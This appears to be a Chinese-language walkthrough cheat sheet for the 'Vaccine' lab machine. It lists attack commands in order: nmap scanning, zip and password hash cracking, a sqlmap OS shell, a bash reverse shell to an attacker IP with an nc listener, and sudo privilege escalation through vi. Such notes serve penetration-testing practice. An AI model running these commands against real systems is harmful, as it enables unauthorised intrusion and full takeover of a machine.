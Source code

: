 Vaccine

工具：nmap ftp john zip2john hashcat sqlmap nc ssh sudo 

关键词：sql注入 sudo提权

知识：

sudo：允许普通用户以 其他用户身份（通常是 root） 执行指定命令。

进入命令后可以调用起其他命令

其他命令利用指南：https://gtfobins.github.io/

shell：
nmap -sC -sV -T4 -p- ${target}

zip2john backup.zip > hashes #将zip转换成john破解的hash
john -wordlist=/usr/share/wordlists/rockyou.txt hashes #john破解

hashid hash #识别hash类别
hashcat -a 0 -m 0 /usr/share/wordlists/rockyou.txt # a 攻击模式 m hash类别 破解hash

sqlmap -u '${target}' --os-shell # sql注入获取shell
bash -c "bash -i >& /dev/tcp/${attackip}:${port} 0>&1" #目标机反弹shell
nc -lvnp ${port} #nc监听

ssh ${user}@${targetip} #网站配置文件中搜集相关密码

sudo -l #列出sudo配置
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh'
/dev/null #运行vi后 执行bin/sh

#若无法执行 进入vi后
:set shell=/bin/shell
:shell 